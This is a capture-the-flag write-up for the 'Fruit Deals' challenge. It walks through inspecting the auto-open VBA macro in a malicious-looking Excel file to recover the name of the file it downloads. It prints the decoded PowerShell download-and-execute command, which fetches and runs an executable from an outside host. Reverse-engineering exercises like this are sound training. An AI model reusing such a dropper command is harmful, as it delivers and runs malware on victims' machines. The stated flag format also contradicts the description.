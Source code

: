 

## Fruit Deals  	

### Infos About challenge : 

![](Screenshot/P1.png)




### Description : 

##### I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

##### The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though


## solution:



### step 1 : Open Deals.xlsm 



![](Screenshot/P2.png)

##### You notice that That have error everywhere 

##### After doing some Research about caracterstique of .xlsm file I found macros 


### step 2 : Open The macros Code and Reverse it 

##### you can Have the list of macros by Click on Developer button in uppbar if you don't have it enable devloper mode in the seetings 



![](Screenshot/P20.png)

#### After that click on Macros



![](Screenshot/P3.png)


#### When you try to run autoopen macros , It Open a youtube video 

### So we should click On Edit Button not Run 

![](Screenshot/P4.png)


### You can notice that the macros is open an Url and download an program before opening The Youtube Url 

![](Screenshot/P5.png)


### Step 3 : Find the name of file that is downloaded 


#### To do this we should debug the macro and make Break point in the line after of this line  
#### f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + ...............

![](Screenshot/P6.png)



### Now Just open the locals windows in View list 

![](Screenshot/P7.png)


### So you can notive the the file name of the programme downloaded is in the "CNTA" 

#### f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""


### Congratulation the name of the program is : banANA-Hakrz09182afd4.exe 




### Flag:

### Spark{banANA-Hakrz09182afd4.exe}